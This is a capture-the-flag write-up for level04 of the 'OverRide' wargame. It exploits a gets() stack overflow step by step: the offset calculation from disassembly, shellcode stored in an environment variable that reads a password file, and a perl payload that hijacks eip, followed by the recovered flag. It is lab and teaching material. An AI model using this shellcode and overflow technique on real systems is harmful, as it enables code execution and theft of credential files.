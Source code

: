 # level04

The program uses `gets` function to read stdin without checking size.

## Step 1. Calculate offset to overwrite `eip`
```assembly
level04@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble main" level04
Dump of assembler code for function main:
   0x080486c8 <+0>:	push   ebp
   0x080486c9 <+1>:	mov    ebp,esp
   0x080486cb <+3>:	push   edi
   0x080486cc <+4>:	push   ebx
   0x080486cd <+5>:	and    esp,0xfffffff0
   0x080486d0 <+8>:	sub    esp,0xb0
[...]
   0x08048757 <+143>:	lea    eax,[esp+0x20]
   0x0804875b <+147>:	mov    DWORD PTR [esp],eax
   0x0804875e <+150>:	call   0x80484b0 <gets@plt>
```
According to the disassembly, offset is `0xb0 - 0x20 + 0x8(padding) + 0x4(ebp) = 0x9c(156)`.

## Step 2. Store the shellcode in the environment variable
```c
#include <stdio.h>

int main(void)
{
	printf("0x%08x\n", getenv("SHELLCODE"));
}
```
```
level04@OverRide:~$ export SHELLCODE=`perl -e 'print "\x90"x100 . "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"'`
level04@OverRide:~$ gcc -m32 /tmp/getenv.c -o /tmp/getenv
level04@OverRide:~$ /tmp/getenv
0xffffd845
```
We put the shellcode in the environment variable and get the address by running a little C program.

## Step 3. Build the payload
```
level04@OverRide:~$ perl -e 'print "A"x156 . pack("V", 0xffffd845)' | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

